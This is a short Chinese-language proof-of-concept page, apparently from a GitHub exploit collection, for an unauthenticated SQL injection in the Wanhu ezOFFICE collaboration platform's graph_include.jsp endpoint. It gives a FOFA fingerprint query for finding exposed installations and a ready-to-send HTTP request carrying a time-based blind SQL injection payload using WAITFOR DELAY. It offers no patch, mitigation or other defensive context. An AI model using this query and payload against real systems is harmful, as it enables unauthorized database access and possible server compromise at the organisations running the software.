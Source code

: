 # 万户ezOFFICE系统graph_include.jsp存在SQL注入漏洞

万户 ezOFFICE /defaultroot/platform/report/graphreport/graph_include.jsp接口处存在SQL注入漏洞，未授权的攻击者可利用此漏洞获取数据库权限，深入利用可获取服务器权限。

## fofa

```yaml
app="万户ezOFFICE协同管理平台"
```

## poc

```yaml
GET /defaultroot/platform/report/graphreport/graph_include.jsp?id=2&startDate=2022-01-01%2000:00:00.000%27%20as%20datetime)%20group%20by%20t.emp_id,t.empname%20)%20%20s%20group%20by%20empname%20order%20by%20num%20desc%20%20WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408091910016.png)